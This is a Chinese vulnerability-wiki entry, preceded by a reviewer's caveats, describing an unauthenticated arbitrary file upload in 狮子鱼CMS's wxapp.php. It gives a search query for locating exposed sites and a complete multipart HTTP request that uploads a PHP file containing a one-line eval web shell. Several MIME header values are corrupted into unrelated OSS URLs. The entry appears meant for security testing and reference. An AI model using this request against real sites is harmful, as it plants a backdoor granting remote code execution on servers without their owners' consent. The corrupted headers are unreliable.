


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：anonymoushandlerclaimed;upfilemultipart; writablePHPparsedpath;versionsunknown

- **证据待核（1）**：Accept图片MIME和文件Content-Type都变OSSURL，明确抓取替换污染。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（2）**：缺源码/返回路径文本/安全版本，不能仅凭未带Cookie确认匿名。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（3）**：完整multipart字段比708第二URL摘要更好，仍需修Host/Length占位。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：不同于CKeditor独立入口应保留关系。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下


发送请求包上传PHP文件

```plain
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST['test']);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```







---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
